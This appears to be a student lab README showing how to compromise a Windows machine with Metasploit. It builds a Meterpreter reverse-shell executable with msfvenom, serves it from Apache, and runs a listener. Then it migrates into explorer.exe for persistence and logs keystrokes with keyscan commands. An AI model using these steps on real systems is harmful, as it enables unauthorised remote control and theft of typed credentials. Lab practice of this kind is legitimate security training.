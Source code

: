# Compromising windows using Metasploit


## AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![s](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/d9b9e488-6580-4969-a3d2-5061443c0ed1)



Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![1](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/12b58fda-5cec-4e47-872b-b838ef920d46)




copy the fun.exe into the apache /var/www/html folder
![2](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/37d7e507-5d47-4ddb-ba93-586f6d73a51b)


Start apache server
sudo systemctl apache2 start

![3](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/0d0224f9-d80c-42b9-a3ab-09b48da66a27)



Check the status of apache2
![4](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/77516604-9c4f-4317-a188-c41de4625542)



Invoke msfconsole:

## OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![6](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/938f78c9-0e8a-42ef-847c-a7cee7393beb)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![8](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/4cf82361-ac00-46ab-92a2-3f09592d98d5)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![8](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/fee0700e-bafd-4e76-af72-f5ac23a5d6ba)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![ss](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/b2d36ca1-64a2-4863-a648-4ef4a8727dd9)



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![9](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/85fb473c-59fe-4042-b163-552fddc735d1)



keyscan_dump	Shows the keystrokes captured so far
![10](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/785ef849-9095-4065-b38a-54b544a0c440)

## RESULT:
The Metasploit framework for reconnaissance is  examined successfully.

